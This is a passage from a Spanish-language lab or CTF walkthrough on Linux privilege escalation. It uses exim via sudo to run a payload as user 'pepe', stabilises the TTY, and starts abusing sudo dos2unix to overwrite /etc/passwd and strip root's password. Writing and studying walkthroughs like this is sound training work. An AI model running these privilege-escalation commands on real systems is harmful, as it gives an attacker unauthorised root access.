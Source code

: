 ~~~ bash
sudo -u pepe exim -be '${run{/bin/bash -c "/tmp/privesc"}}'
~~~

![[Pasted image 20241105203354.png]]

Y estaríamos conectados como el usuario `pepe`, ahora finalmente nos queda escalar a `root`

![[Pasted image 20241105203659.png]]

## Tratamiento TTY

Hacemos un tratamiento de la TTY para poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm

script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
/bin/bash
stty columns 189 rows 44
~~~

![[Pasted image 20241105204545.png]]

## Sudo `dos2unix`

Listaremos nuestros privilegios `sudo` para ver si tenemos acceso a un recurso nuevo el cual podamos explotar para elevar nuestros privilegios

~~~ bash
sudo -l
~~~

![[Pasted image 20241105205458.png]]

Tenemos capacidad de ejecutar `dos2unix` sin proporcionar contraseña. Con la capacidad de escritura de archivos con `dos2unix`, podemos llevar a cabo una escalada de privilegios mediante una escritura privilegiada

![[Pasted image 20241105204818.png]]

Usaremos el contenido de `/etc/passwd` para nuestra escalada, primeramente hacemos una copia del `/etc/passwd` en algún directorio como `/tmp`

~~~ bash
cat /etc/passwd > /tmp/passwd
~~~

**Ahora necesitamos que la línea del archivo donde se encuentra `root` esté sin la letra `x`, al eliminar la "x" en el campo de contraseña de `root`, indicaríamos al sistema que `root` no tiene contraseña almacenada en `/etc/shadow`. Esto dejaría la cuenta `root` accesible sin contraseña**
